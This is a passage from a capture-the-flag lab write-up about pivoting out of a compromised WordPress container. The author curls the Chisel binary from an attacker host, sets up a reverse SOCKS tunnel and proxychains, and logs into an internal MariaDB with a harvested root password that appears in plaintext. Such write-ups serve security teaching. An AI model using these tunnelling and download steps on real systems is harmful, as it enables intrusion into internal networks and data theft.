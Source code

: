 I want to check out the database, and I've got creds to it from above.
Unfortunately, I don't have any good tools in this container to query
it. I could use PHP, but I'll tunnel it instead with
[Chisel](https://github.com/jpillora/chisel). I'll upload the binary to
the wordpress container with `curl`, one of the few programs here:



    www-data@wordpress:/tmp$ curl -s 10.10.14.6/chisel_1.7.6_linux_amd64 -o c



I'll work out of `/tmp` as `dev/shm` is mounted noexec. I'll start it as
a server server on my client:



    oxdf@hacky$ ./chisel_1.7.6_linux_amd64 server -p 8000 --reverse
    2021/10/08 15:37:11 server: Reverse tunnelling enabled
    2021/10/08 15:37:11 server: Fingerprint N52pbJIIK/5bKBt+7XNYJZrb3MPo7gLjp2cYCIwG6CM=
    2021/10/08 15:37:11 server: Listening on http://0.0.0.0:8000



Now I'll connect the client:



    www-data@wordpress:/tmp$ ./c client 10.10.14.6:8000 R:socks
    2021/10/08 19:38:44 client: Connecting to ws://10.10.14.6:8000
    2021/10/08 19:38:45 client: Connected (Latency 88.955517ms



`R:socks` tells Chisel to allow for me to do a reverse Socks proxy from
the server through the client. The connection shows up at the server as
well:



    2021/10/08 15:38:44 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening



I'll make sure my `/etc/proxychains.conf` file has a SOCKS5 proxy
through 1080:



    [ProxyList]
    socks5  127.0.0.1 1080



Now I can connect:



    oxdf@hacky$ proxychains mysql -h 172.69.0.102 -u root -pOnlyTheBestSecretsGoInShellScripts
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:1080-<><>-172.69.0.102:3306-<><>-OK
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MySQL connection id is 1083
    Server version: 8.0.26 MySQL Community Server - GPL

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
